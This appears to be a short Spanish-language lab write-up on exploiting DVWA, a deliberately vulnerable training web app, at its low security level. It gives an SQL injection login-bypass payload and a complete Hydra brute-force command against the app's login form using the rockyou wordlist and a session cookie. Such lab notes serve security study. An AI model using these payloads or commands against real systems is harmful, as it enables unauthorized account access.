# Explotación Nivel Bajo DVWA

## 1. SQL Injection (Bypass Login)

**Payload:** `admin' OR '1'='1' --`

**Ejecución:** Ingresar en campo `username`, dejar `password` vacío.

**Resultado:** Acceso como `admin` sin contraseña.

<img src="../../assets/BruteForceLow01.png">

## 2. Fuerza Bruta

### 2.1. Hydra

**Comando:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP_SERVIDOR> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=<TU_SESION>;security=low:F=Username and/or password incorrect."
```

<img src="../../assets/BruteForceLow02.png">

Nota: Reemplazar <IP_SERVIDOR> y <TU_SESION>.

Resultado: Contraseña de admin.
